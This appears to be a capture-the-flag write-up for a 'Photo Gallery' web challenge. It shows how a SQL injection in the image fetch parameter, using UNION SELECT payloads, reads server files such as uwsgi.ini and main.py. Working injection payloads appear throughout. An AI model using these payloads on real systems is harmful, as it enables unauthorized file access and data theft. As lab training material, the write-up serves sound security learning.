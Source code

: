 # Photo Gallery - FLAG0

## 0x00 Check Image Source

Based on [FLAG1][1], when fetch a image id, it will return a image from the **files** directory.

http://127.0.0.1/xxxxxxxxxx/fetch?id=1

| id | title            | parent | filename           |
| -- | ---------------- | ------ | ------------------ |
| 1  | Utterly adorable | 1      | files/adorable.jpg |
| 2  | Purrfect         | 1      | files/purrfect.jpg |
| 3  | Invisible        | 1      | FLAG1              |

## 0x01 Arbitrary File Read

Normally id is integer, so decimal may make an error here.

```sql
fetch?id=1.1
```

![](./imgs/notfound.jpg)

So when do UNION SELECT with the image name, it loads the image 1 again.

```sql
id=1.1 UNION SELECT 'files/adorable.jpg' --
```

![](./imgs/adorable.jpg)

## 0x02 [uwsgi-nginx-flask-docker][3]

The [hint][4] shows the application run on [uwsgi-nginx-flask-docker][3]. So the configuration file is **uwsgi.ini**

```sql
id=1.1 UNION SELECT 'uwsgi.ini' --
```

The file shows

```
[uwsgi] module = main callable = app 
```

And the main file

```sql
id=1.1 UNION SELECT 'main.py' --
```

Can check the [main.py][2]

![](./imgs/flag.jpg)


[1]: ../flag1
[2]: ./main.py
[3]: https://github.com/tiangolo/uwsgi-nginx-flask-docker
[4]: ../